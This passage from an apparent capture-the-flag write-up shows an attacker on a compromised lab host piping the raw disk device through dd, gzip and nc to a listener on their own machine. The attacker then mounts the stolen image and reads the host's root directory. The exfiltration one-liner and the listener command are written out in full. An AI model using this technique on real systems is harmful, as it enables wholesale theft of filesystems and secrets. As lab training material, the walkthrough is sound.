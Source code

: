 
`dm-0` is the device I want to read off to get the root of the filesystem.

#### Exfil Filesystem

I’ll use `dd` to read from the device, and `nc` to copy the entire filesystem
off the device back to my host. I’ll send it through `gzip` to compress it so
that it will move faster, but it still takes over seven minutes:

    
    
    atanas@kotarak-dmz:~$ time dd if=/dev/dm-0 | gzip -1 - | nc 10.10.14.15 443
    14680064+0 records in
    14680064+0 records out
    7516192768 bytes (7.5 GB, 7.0 GiB) copied, 438.725 s, 17.1 MB/s
    
    real    7m18.932s
    user    2m4.900s
    sys     0m25.648s
    

Back on my host:

    
    
    oxdf@parrot$ nc -lnvp 443 > dm-0.gz
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.55] 34610
    

When it’s done, the compressed file is a bit over two gigs:

    
    
    oxdf@parrot$ ls -lh dm-0.gz
    -rwxrwx--- 1 root vboxsf 2.2G May 15 15:21 dm-0.gz
    

It decompresses to seven gigs:

    
    
    oxdf@parrot$ gunzip dm-0.gz 
    oxdf@parrot$ ls -lh dm-0 
    -rwxrwx--- 1 root vboxsf 7.0G May 15 15:40 dm-0
    

I can mount it, and access the file system:

    
    
    oxdf@parrot$ sudo mount dm-0-orig /mnt/
    oxdf@parrot$ ls /mnt/
    backups  bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
    

`/root` is the host system, with `flag.txt`, not the container with
`root.txt`:

    
    
    oxdf@parrot$ ls /mnt/root/
    app.log  flag.txt
    
